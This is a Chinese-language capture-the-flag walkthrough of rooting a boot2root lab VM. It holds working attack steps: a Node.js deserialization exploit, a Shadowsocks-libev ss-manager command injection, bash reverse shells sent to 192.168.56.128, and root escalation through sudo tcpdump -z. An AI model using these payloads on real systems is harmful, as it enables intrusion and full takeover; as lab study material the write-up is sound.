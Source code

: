 ## port scan

```shell
# Nmap 7.94SVN scan initiated Fri Nov 15 01:26:22 2024 as: nmap -sT --min-rate 5000 -p- -oN nmap_results/port_scan 192.168.56.134
Nmap scan report for 192.168.56.134
Host is up (0.013s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
666/tcp open  doom
MAC Address: 08:00:27:EF:5E:1B (Oracle VirtualBox virtual NIC)
```

```shell
# Nmap 7.94SVN scan initiated Fri Nov 15 01:27:20 2024 as: nmap -sT -sV -sC -O -p22,666 -oN nmap_results/detils_scan 192.168.56.134
Nmap scan report for 192.168.56.134
Host is up (0.0011s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)
|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)
|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)
666/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 08:00:27:EF:5E:1B (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
```

666端口是web端

vuln_scan

```shell
nmap --script=vuln -p666 -oN nmap_results/vuln_scan 192.168.56.134
```

## web

刚开始的时候，网站还可以访问

然后就是报错了，json中出现语法错误

![image-20241115221206175](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241115221206175.png)

观察Cooike发现是base64编码

![image-20241115221505102](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241115221505102.png)

```
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMT"}
```

这里在`Friday`单词前面少了个引号

```
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":"Friday, 13 Oct 2018 00:00:00 GMT"}
```

替换Cookie成功登录，后台只是一句话`hello,admin`

往回看报错信息，`Object.exports.unserialize`有个反序列化函数

`node.js`有漏洞，可以执行命令

![image-20241115222046584](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241115222046584.png)

利用`49552.py`,可以成功执行命令

`python2 49552.py`

```
rlwrap nc -lvnp 445
```

拿到`nodeadmin`的shell

## 提权

```bash
[nodeadmin@localhost ~]$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
/usr/sbin/userhelper
/usr/sbin/pam_timestamp_check
/usr/sbin/mtr-packet
/usr/sbin/usernetctl
/usr/sbin/exim
......
```

```shell
[nodeadmin@localhost ~]$ /usr/sbin/exim --version
/usr/sbin/exim --version
Exim version 4.91 #2 built 19-Apr-2018 15:50:32
```

`exim4.91`应该是可以提权的，但是我没成功

![image-20241115224155768](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241115224155768.png)

查看`passwd`文件

```bash
[nodeadmin@localhost ~]$ cat /etc/passwd | grep -v 'nologin'
cat /etc/passwd | grep -v 'nologin'
root:x:0:0:root:/root:/bin/bash
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
nodeadmin:x:1001:1001::/home/nodeadmin:/bin/bash
fireman:x:1002:1002::/home/fireman:/bin/bash
```

有个`fireman`用户，家目录进不去

### Shadowsocks-libev漏洞利用

查看进程，找到`ss-manager`

**Shadowsocks-libev** 是一款轻量级的代理软件，常用于科学上网和隐私保护。它基于 Socks5 协议，支持加密和安全通信。

```shell
nodeadmin@localhost ~]$ ps -aux | grep 'fireman'
ps -aux | grep 'fireman'
root       816  0.0  0.1 301464  4592 ?        S    01:36   0:00 su fireman -c /usr/local/bin/ss-manager
fireman    820  0.0  0.0  37072  3932 ?        Ss   01:36   0:00 /usr/local/bin/ss-manager
nodeadm+  3874  0.0  0.0 213788   968 ?        S    09:45   0:00 grep --color=auto fireman
```

![image-20241115225019047](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241115225019047.png)

利用方法，先使用nc连接本地`udp`端口8839，反弹shell

```
nc -u 127.0.0.1 8839
add: {"server_port":8003, "password":"test", "method":"||/bin/bash -i >& /dev/tcp/192.168.56.128/1234 0>&1||"}
```

![image-20241115225903381](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241115225903381.png)

### sudo提权

查看sudo权限

```shell
[fireman@localhost ~]$ sudo -l
sudo -l
Matching Defaults entries for fireman on localhost:
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR
    LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS
    LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fireman may run the following commands on localhost:
    (ALL) NOPASSWD: /sbin/iptables
    (ALL) NOPASSWD: /usr/bin/nmcli
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```

![image-20241115230940459](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241115230940459.png)

```shell
fireman@localhost ~]$ echo "/bin/bash -i >& /dev/tcp/192.168.56.128/1235 0>&1" > 1.sh
<ash -i >& /dev/tcp/192.168.56.128/1235 0>&1" > 1.sh
[fireman@localhost ~]$ cat 1.sh
cat 1.sh
/bin/bash -i >& /dev/tcp/192.168.56.128/1235 0>&1
[fireman@localhost ~]$ chmod +x 1.sh
chmod +x 1.sh
```

修改网卡名称

```shell
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /home/fireman/1.sh -Z root
```

```shell
[root@localhost ~]# ls
ls
flag.txt
[root@localhost ~]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@localhost ~]# cat flag.txt
cat flag.txt
[+] You're a soldier. 
[+] One of the best that the world could set against
[+] the demonic invasion.  

                FLAG: kre0cu4jl4rzjicpo1i7z5l1     

[+] Congratulations on completing this VM & I hope you enjoyed my first boot2root.

[+] You can follow me on twitter: @0katz

[+] Thanks to the homie: @Pink_P4nther
```

